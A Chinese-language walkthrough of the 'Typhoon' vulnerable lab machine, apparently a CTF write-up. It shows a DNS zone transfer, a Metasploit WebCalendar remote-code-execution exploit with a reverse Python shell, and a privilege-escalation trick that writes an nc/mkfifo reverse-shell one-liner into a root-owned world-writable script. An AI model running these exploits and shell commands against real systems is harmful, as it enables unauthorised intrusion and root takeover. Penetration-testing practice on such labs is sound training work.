 
DNS 服务器可能正在服务 typhoon.local，让我们尝试执行区域传输！


dig （域信息搜索器）命令是一个用于询问DNS 域名服务器的灵活的工具。 它执行DNS 搜索，显示从受请求的域名服务器返回的答复。 多数DNS 管理员利用dig 作为DNS 问题的故障诊断，因为它灵活性好、易用、输出清晰。 虽然通常情况下dig 使用命令行参数，但它也可以按批处理模式从文件读取搜索请求。

涉及dig一个重要的命令axfr，axfr是q-type类型的一种，axfr类型是Authoritative Transfer的缩写，指请求传送某个区域的全部记录。

只要欺骗dns服务器发送一个axfr请求过去，如果该dns服务器上存在该漏洞，就会返回所有的解析记录值。

dig axfr @192.168.253.135 typhoon.local
calendar.typhoon.local.	3600	IN	CNAME	wwww.typhoon.local.

添加hosts：
192.168.253.135 calendar.typhoon.local

发现版本：
WebCalendar v1.2.4 (08 Aug 2011)

WebCalendar是一个基于Web的日历应用软件。可配置成单个用户日历，多用户日历或访问者可以浏览的事件日历。WebCalendar需要数据库支持可以是MySQL，Oracle，PostgreSQL， MSSQLServer，ODBC， Interbase。它的特性：当更新/新增/删除事件或事件即将发生时通过Email提醒，iCal/vCal导入/导出。支持LDAP与NIS用户身 份验证。支持把用户的日历事件添加到RSS中。支持简体中文等。


searchsploit webcalendar
发现exploits/linux/webapps/18797.rb可以利用！

msfconsole
search webcalendar
use exploit/linux/http/webcalendar_settings_exec
set rhosts calendar.typhoon.local
set vhost calendar.typhoon.local
set targeturi /
set payload cmd/unix/reverse_python
set lhost 192.168.253.138
exploit

成功获得反弹shell！



--------------------------------------------
--------------------------------------------
13、拓展思路：内部信息收集后

37292.c提权

在/tab/目录下发现一个文件所有者为root、权限为777的sh文件。

echo "mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.253.138 8888 >/tmp/f" > script.sh
nc -vlp 8888
./script.sh


rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f





























